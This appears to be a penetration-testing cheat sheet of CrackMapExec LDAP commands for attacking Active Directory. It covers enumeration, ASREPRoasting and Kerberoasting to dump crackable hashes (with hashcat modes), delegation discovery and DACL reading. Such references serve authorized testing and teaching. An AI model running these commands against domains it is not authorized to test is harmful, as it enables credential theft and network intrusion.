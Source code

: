 # cme

% cme-ldap, crackmapexec, windows, Active directory
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 


## LDAP connection
edit /etc/hosts
```bash
cme ldap <ip> -u <user> -p <password> -d <domain> --no-smb
```

## LDAP Machine Account Quota
```bash
cme ldap <ip> -u <user> -p <password> -d <domain> --no-smb -M MAQ
```

## ASREPRoast enum without authentication
User can be a wordlist too (user.txt)
Hashcat format  -m 18200 
```bash
cme ldap <ip> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <dc_name>
```

## ASREPRoast enum with authentication
Hashcat format  -m 18200 
```bash
cme ldap <ip> -u <user> -p '<password>' --asreproast ASREProastables.txt --kdcHost <dc_name>
```

## Kerberoasting
Hashcat format  -m 13100
```bash
cme ldap <ip> -u <user> -p '<password>' --kerberoasting kerberoastables.txt --kdcHost <dc_name>
```

## Unconstrained delegation
List of all computers et users with the flag TRUSTED_FOR_DELEGATION
```bash
cme ldap <ip> -u <user> -p '<password>' --trusted-for-delegation
```


# read DACLs of an account
```bash
cme ldap <dc_name> -k --kdcHost <dc_name> -M daclread -o TARGET=<user> ACTION=read
```


# read DACLs of an principal has over a target
```bash
cme ldap <dc_name> -k --kdcHost <dc_name> -M daclread -o TARGET=<target_user> -o PRINCIPAL=<user> ACTION=read
```